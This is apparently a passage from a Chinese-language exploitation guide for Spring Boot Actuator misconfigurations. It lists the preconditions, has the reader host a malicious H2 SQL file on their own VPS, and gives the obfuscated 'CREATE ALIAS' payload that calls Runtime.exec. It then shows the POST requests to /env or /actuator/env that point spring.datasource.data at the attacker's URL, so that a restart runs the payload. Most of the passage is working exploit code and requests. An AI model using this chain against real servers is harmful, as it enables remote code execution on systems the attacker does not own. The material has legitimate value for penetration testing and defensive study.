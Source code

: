 #### 利用条件：

*   可以 POST 请求目标网站的 `/env` 接口设置属性
    
*   可以 POST 请求目标网站的 `/restart` 接口重启应用
    
*   环境中需要存在 `h2database`、`spring-boot-starter-data-jpa` 相关依赖
    
*   ⚠️
    
     目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
    
*   ⚠️
    
     HTTP 服务器如果返回含有畸形 h2 sql 语法内容的文件，会导致程序异常退出
    

#### 利用方法：

##### 步骤一：托管 sql 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80

```

在根目录放置以任意名字的文件，内容为需要执行的 h2 sql 代码，比如：

> ⚠️ 下面 payload 中的'T5' 方法只能 restart 执行一次；后面 restart 需要更换新的方法名称 (如 T6) 和设置新的 sql URL 地址，然后才能被 restart 重新使用，否则第二次 restart 重启应用时会导致程序异常退出

```
CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('/bin/bash','-c','open -a Calculator');

```

##### 步骤二：设置 spring.datasource.data 属性

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.data=http://your-vps-ip/example.sql


```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.datasource.data","value":"http://your-vps-ip/example.sql"}


```

